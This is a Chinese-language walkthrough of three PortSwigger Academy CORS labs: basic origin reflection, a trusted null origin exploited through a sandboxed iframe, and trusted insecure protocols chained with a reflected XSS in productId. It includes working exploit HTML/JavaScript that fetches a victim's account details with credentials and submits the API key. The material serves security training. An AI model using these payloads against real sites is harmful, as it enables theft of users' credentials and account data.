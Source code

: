 ```yaml
---
title: Cross-origin resource sharing (CORS)
description: Cross-origin resource sharing (CORS)
last_update:
  date: "2025-08-26T08:00:00+08:00"
---
```


## Lab: CORS vulnerability with basic origin reflection

| Dimension | Description                                                                                                |
| --------- | ---------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#server-generated-acao-header-from-client-specified-origin-header |
| Lab       | https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack                               |

在 exploit-server 構造

```html
<script>
  fetch(
    "https://0ae00026030c463780b68f5900490011.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((res) => res.json())
    .then((json) => {
      alert(JSON.stringify(json));
      document.getElementById("hello").value = json.apikey;
      document.getElementById("submitSolution").submit();
    });
</script>
<form
  id="submitSolution"
  action="/submitSolution"
  method="POST"
  enctype="application/x-www-form-urlencoded"
>
  <input id="hello" name="answer" />
</form>
```

## Lab: CORS vulnerability with trusted null origin

| Dimension | Description                                                                  |
| --------- | ---------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#whitelisted-null-origin-value      |
| Lab       | https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack |

在 exploit-server 構造

```html
<iframe
  id="evilIframe"
  sandbox="allow-scripts allow-top-navigation allow-forms"
></iframe>
<script>
  const inlineHTML = `
<div>
  <script>
    fetch('https://0ab4000a04978dfe81a60340003600c0.web-security-academy.net/accountDetails', {
      credentials : 'include'
    })
      .then(res => res.json())
      .then(json => {
        document.getElementById("hello").value = json.apikey;
        document.getElementById("submitSolution").submit();
      })
  <\/script>
  <form
    id="submitSolution"
    action="https://0ab4000a04978dfe81a60340003600c0.web-security-academy.net/submitSolution"
    method="POST"
    enctype="application/x-www-form-urlencoded"
  >
    <input id="hello" name="answer" />
  </form>
</div>`;
  document.getElementById("evilIframe").setAttribute("srcdoc", inlineHTML);
</script>
```

中間有遇到一個小問題，在 `<script>` 標籤內的 template literal 定義 `<script>`

```html
<script>
  // 這樣會出錯
  const html = `<script>alert(1);</script>`;
</script>

<script>
  // 這樣就沒問題
  const html = `<script>alert(1);<\/script>`;
</script>
```

## Lab: CORS vulnerability with trusted insecure protocols

| Dimension | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors |
| Lab       | https://portswigger.net/web-security/cors/lab-breaking-https-attack                |

在商品詳細頁看到

```html
<script>
  const stockCheckForm = document.getElementById("stockCheckForm");
  stockCheckForm.addEventListener("submit", function (e) {
    const data = new FormData(stockCheckForm);
    window.open(
      "http://stock.0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/?productId=4&storeId=" +
        data.get("storeId"),
      "stock",
      "height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no",
    );
    e.preventDefault();
  });
</script>
```

針對 productId 跟 storeId 玩了一陣子，發現 productId 有 Reflected XSS，可以構造

```
http://stock.0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/?productId=<script>alert(1)</script>&storeId=1
```

接下來應該就明朗了，我可以在 subdomain 執行任何程式碼，就可以戳 API 拿 Token 然後上傳答案，構造跟 [第一題](#lab-cors-vulnerability-with-basic-origin-reflection) 一樣的 HTML

```html
<script>
  fetch(
    "https://0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((res) => res.json())
    .then((json) => {
      alert(JSON.stringify(json));
      document.getElementById("hello").value = json.apikey;
      document.getElementById("submitSolution").submit();
    });
</script>
<form
  id="submitSolution"
  action="/submitSolution"
  method="POST"
  enctype="application/x-www-form-urlencoded"
>
  <input id="hello" name="answer" />
</form>
```

然後整段塞到 ?productId= 後面，記得要把 `\n` 拿掉，可以用

```js
console.log(
  `<script>
  fetch(
    "https://0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/accountDetails",
    { credentials: "include" },
  )
    .then((res) => res.json())
    .then((json) => {
      alert(JSON.stringify(json));
      document.getElementById("hello").value = json.apikey;
      document.getElementById("submitSolution").submit();
    });
</script>
<form
  id="submitSolution"
  action="/submitSolution"
  method="POST"
  enctype="application/x-www-form-urlencoded"
>
  <input id="hello" name="answer" />
</form>`.replaceAll("\n", ""),
);
```

之後在 exploit-server 構造

```
HTTP/1.1 301 Moved Permanently
Location: http://stock.0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/?productId=<script>  fetch(    "https://0a6700fc041606fe80dd9ea500b90008.web-security-academy.net/accountDetails",    { credentials: "include" },  )    .then((res) => res.json())    .then((json) => {      alert(JSON.stringify(json));      document.getElementById("hello").value = json.apikey;      document.getElementById("submitSolution").submit();    });</script><form  id="submitSolution"  action="/submitSolution"  method="POST"  enctype="application/x-www-form-urlencoded">  <input id="hello" name="answer" /></form>&storeId=0
```

## 小結

CORS 的 Lab 只有三題，而且最後一題因為沒辦法 MitM，所以最終還是要回到 XSS，有基本的 XSS 觀念，再來解最後一題會比較快

## 參考資料

- https://portswigger.net/web-security/cors
